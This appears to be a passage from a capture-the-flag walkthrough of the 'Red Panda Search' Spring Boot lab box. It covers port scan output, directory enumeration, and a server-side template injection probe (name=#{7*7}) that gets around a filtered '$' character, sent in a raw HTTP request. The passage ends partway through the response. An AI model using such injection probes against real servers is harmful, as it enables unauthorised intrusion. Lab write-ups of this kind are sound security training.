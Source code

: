 ```shell
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 03 Aug 2022 09:02:43 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
|_http-open-proxy: Proxy might be redirecting requests
```
As we can see there are only two ports open: 22 and 8080.  
As we can see from the banners this application is running over Spring Boot, so we can assume that this is a Java application.  
As we open the site we can see a search engine like page.  
Running directory enumeration shows the following:  
```
/search               (Status: 405) [Size: 117]
/stats                (Status: 200) [Size: 987]
/error                (Status: 500) [Size: 86]
/export.xml           (Status: 200) [Size: 38]
```
The same can be discovered by simply poking around on the site.  
Now we can try to `wfuzz` all the pages for different vulnerabilities but with no luck.
Now, as we did for [Doctor](Doctor.md) and [Late](Late.md), we can test for SSTI if we test for [SSTI for Java](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
Now, as we can notice `$` is a banned charachter, so we can test SSTI using `#` or `*` instead:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=#{7*7}
```
and, as a response we get:  
```http
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Wed, 03 Aug 2022 10:47:20 GMT
Connection: close
Content-Length: 735

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
```